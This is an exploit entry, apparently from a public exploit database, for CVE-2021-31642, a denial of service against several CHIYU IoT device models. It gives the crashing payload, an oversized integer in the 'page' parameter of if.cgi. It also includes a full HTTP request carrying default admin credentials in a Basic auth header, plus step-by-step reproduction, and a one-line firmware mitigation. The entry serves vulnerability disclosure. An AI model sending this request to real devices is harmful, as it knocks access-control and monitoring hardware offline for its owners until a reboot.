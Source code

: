 EXP
---

    # Exploit Title: CHIYU IoT Devices - Denial of Service (DoS)
    # Date: 01/06/2021
    # Exploit Author: sirpedrotavares
    # Vendor Homepage: https://www.chiyu-tech.com/msg/msg88.html
    # Software Link: https://www.chiyu-tech.com/category-hardware.html
    # Version: BIOSENSE, Webpass, and BF-630, BF-631, and SEMAC   - all firmware versions < June 2021
    # Tested on: BIOSENSE, Webpass, and BF-630, BF-631, and SEMAC
    # CVE: CVE-2021-31642
    # Publication: https://seguranca-informatica.pt/dancing-in-the-iot-chiyu-devices-vulnerable-to-remote-attacks

    Description: A denial of service condition exists after an integer overflow in several IoT devices from CHIYU Technology, including BIOSENSE, Webpass, and BF-630, BF-631, and SEMAC. The vulnerability can be explored by sending an unexpected integer (> 32 bits) on the page parameter that will crash the web portal and making it unavailable until a reboot of the device.
    CVE ID: CVE-2021-31642
    CVSS: Medium- CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:H
    URL: https://gitbook.seguranca-informatica.pt/cve-and-exploits/cves/chiyu-iot-devices#cve-2021-31642

    Affected parameter: page=Component: if.cgi
    Payload:
    if.cgi?redirect=AccLog.htm&failure=fail.htm&type=go_log_page&page=2781000

    ====HTTP request======
    GET
    /if.cgi?redirect=AccLog.htm&failure=fail.htm&type=go_log_page&page=2781000
    HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0)
    Gecko/20100101 Firefox/87.0
    Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: pt-PT,pt;q=0.8,en;q=0.5,en-US;q=0.3
    Accept-Encoding: gzip, deflate
    Authorization: Basic YWRtaW46YWRtaW4=
    Connection: close
    Referer: http://127.0.0.1/AccLog.htm
    Cookie: fresh=
    Upgrade-Insecure-Requests: 1



    Steps to reproduce:
      1. Navigate to the vulnerable device
      2. Make a GET request to the CGI component (if.cgi)
      3. Append the payload at the end of the vulnerable parameter (page)
      4. Submit the request and observe payload execution


     Mitigation: The latest version of the CHIYU firmware should be installed
    to mitigate this vulnerability.